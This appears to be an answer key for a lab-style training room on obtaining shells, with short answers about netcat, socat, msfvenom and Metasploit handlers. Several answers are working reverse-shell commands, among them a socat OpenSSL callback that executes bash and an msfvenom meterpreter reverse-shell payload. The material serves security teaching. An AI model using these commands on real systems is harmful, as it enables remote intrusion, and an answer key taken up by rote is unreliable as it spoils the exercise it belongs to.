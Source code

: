 ## Task 3  Types of Shell

### Which type of shell connects back to a listening port on your computer, Reverse (R) or Bind (B)?
    R

### You have injected malicious shell code into a website. Is the shell you receive likely to be interactive? (Y or N)
    N

### When using a bind shell, would you execute a listener on the Attacker (A) or the Target (T)?
    T

## Task 4  Netcat

### Which option tells netcat to listen?
    -l

### How would you connect to a bind shell on the IP address: 10.10.10.11 with port 8080?
    nc 10.10.10.11 8080

## Task 5  Netcat Shell Stabilisation

### How would you change your terminal size to have 238 columns?
    stty cols 238

### What is the syntax for setting up a Python3 webserver on port 80?
    sudo python3 -m http.server 80

## Task 6  Socat

### How would we get socat to listen on TCP port 8080?
    TCP-L:8080

## Task 7  Socat Encrypted Shells

### What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"
    socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0

### If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?
    socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane

## Task 8  Common Shell Payloads

### What command can be used to create a named pipe in Linux?
    mkfifo

## Task 9  msfvenom

### Which symbol is used to show that a shell is stageless?
    _

### What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell
    msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443

## Task 10  Metasploit multi/handler

### What command can be used to start a listener in the background?
    exploit -j

### If we had just received our tenth reverse shell in the current Metasploit session, what would be the command used to foreground it?
    sessions 10

